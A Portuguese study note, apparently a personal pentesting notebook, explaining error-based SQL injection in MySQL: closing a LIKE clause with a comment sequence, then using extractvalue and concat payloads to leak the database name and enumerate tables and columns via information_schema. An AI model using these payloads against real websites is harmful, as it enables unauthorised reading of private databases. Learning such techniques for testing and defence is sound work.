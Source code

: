 A intenção aqui é gerar um erro para podermos analisar uma parte da query e/ou rodar **comandos baseados em erro**.

Existem queries no SQL que rodam baseados em erro, ou seja, caso um erro sela gerado ela é executada.

**Temos como exemplo essa query.**
```sql
SELECT * FROM produtos WHERE title LIKE '%<VALOR>%' OR description LIKE '%<VALOR>%'
```

Temos que ter uma noção de como funciona a query para podermos ser bem sucedidos.

Como a query utiliza o operador ``LIKE`` com ``'%<VALOR>%'``, podemos encerrar essa parte colocando `%' -- -`, e então a query ficaria assim.

```sql
SELECT * FROM produtos WHERE title LIKE '%%' -- -%' OR description LIKE '%<VALOR>%'
```

Após isso podemos injetar nossos comandos como
- `ExtractValue`
- `union`
- `concat`

O ``extractvalue`` é uma função que podemos usar para poder selecionar algo no banco de dados com ``xpath notation``, caso haja erro no ``xpath notation`` ele mostrará o porquê ele deu erro e executará o resultado da query nele.

o ``concat`` é uma função concatena valores e resultados de queries, com ele podemos colocar um ``LF`` ou ``CR``, que caso seja usado dentro do ``extractvalue``, criará um erro no ``xpath notation``.

---

**Temos como exemplo essa query.**
```sql
SELECT * FROM produtos WHERE title LIKE '%<VALOR>%' OR description LIKE '%<VALOR>%'
```

Poderíamos colocar a seguinte payload :
```sql
extractvalue("", concat(0x0a, (SELECT database())))
```

Ficaria assim :
```sql
SELECT * FROM produtos WHERE title LIKE '%%' and extractvalue("", concat(0x0a, ((SELECT database()))) -- -%' OR description LIKE '%<VALOR>%'
```
![[Pasted image 20241002091835.png]]

Para pegar as tabelas :
```sql
select table_name from information_schema.tables where table_schema='cs' limit 0,1
```
![[Pasted image 20241002093137.png]]

Para pegar as colunas :
```sql
select column_name from information_schema.columns where table_name='products' limit 0,1
```
![[Pasted image 20241002093236.png]]










